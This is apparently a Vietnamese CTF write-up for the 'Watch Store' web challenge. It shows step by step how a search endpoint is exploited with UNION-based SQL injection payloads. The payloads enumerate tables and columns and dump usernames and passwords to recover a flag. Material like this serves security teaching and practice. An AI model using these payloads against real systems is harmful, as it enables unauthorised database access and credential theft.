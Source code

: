 # VSL Summer CTF

<img src="https://github.com/Thuanle2401/VSL-CTF/blob/main/web/UploadFile1/images/VSL-summer.png?raw=true" width="500" height="300">

---
# Challenge: Watch Store
---
## 1. Thông tin người thực hiện
- Họ và tên: Lê Ngọc Thuận

## 2. Thông tin Challenge:
- Link: http://61.14.233.78:1234
- Tính năng: Tạo tài khoản người dùng và tìm kiếm sản phẩm

## 3. Solution:
- Tại trang chủ: http://61.14.233.78:1234, ta thấy có một sản phẩm là phần 2 của flag **`_SQL_Inj3ct10n_W1th_`**, vậy có thể đây là 1 gợi ý về `SQL injection` và flag được chia thành nhiều phần.

- Ta sẽ lần lượt test `SQL injection` ở các endpoint `/login.php`, `/register.php` và `/search.php`.

- Sau một số lần thử thì mình đã kết luận rằng 2 endpoint `/login.php` và `/register.php` không thể khai thác được.

- Nhưng ở endpoint `/search.php` thì mình đã thử payload `test' OR 1 -- `, kết quả là server vẫn trả về danh sách các sản phẩm, vậy có thể kết luận trang web đã dính SQL injection tại endpoint `/search.php`.

![1](./images/1.png)

- Vậy mọi chuyện bây giờ chỉ đơn giản là xác định số cột rồi trích xuất tất cả dữ liệu trong database của server.

- Mình đã có thử dùng `ORDER BY` để xác định số cột nhưng đã bị chặn, nên mình đã chuyển sang dùng `UNION SELECT` để xác định số cột và số cột là `5`.

- Trích xuất dữ liệu:
	- Payload: `' UNION SELECT NULL, database(), NULL, NULL, NULL -- -` <br>
	**---> Tên Database:** `ctf_db`
    
    - Payload: `' UNION SELECT NULL, table_name, NULL, NULL, NULL FROM information_schema.tables -- -` <br>
    **---> Các bảng đáng chú ý:** `users, secret`
    
    - Payload: `' UNION SELECT NULL, column_name, NULL, NULL, NULL FROM information_schema.columns WHERE table_name='secret' -- -` <br>
	**--> Các cột bảng `secret`:** description, id, image, name, price
    
    - Payload: `' UNION SELECT id, description, image, name, price FROM secret -- -`
    **--> Nội dung bảng `secret` có chứa part 1 của FLAG:** **`VSL{M4st3r1ng_Th3_4rt_0f`**
    
    - Payload: `' UNION SELECT NULL, column_name, NULL, NULL, NULL FROM information_schema.columns WHERE table_name='users' -- -`
    **--> Các cột đáng chú ý của bảng `users`:** `username, password`
    
    - Payload: `' UNION SELECT NULL, username, password, NULL, NULL FROM users -- -` với payload này ta sẽ dump được một username đáng chú ý là `Have A Nice Day Done` với password là 1 mã hex `4279703473735F346C6C5F46316C743372737D` khi decode ta nhận được part 3 của flag: **`Byp4ss_4ll_F1lt3rs}`**
    
- Kết hợp 3 phần ta được FLAG: **`VSL{M4st3r1ng_Th3_4rt_0f_SQL_Inj3ct10n_W1th_Byp4ss_4ll_F1lt3rs}`**
    	









    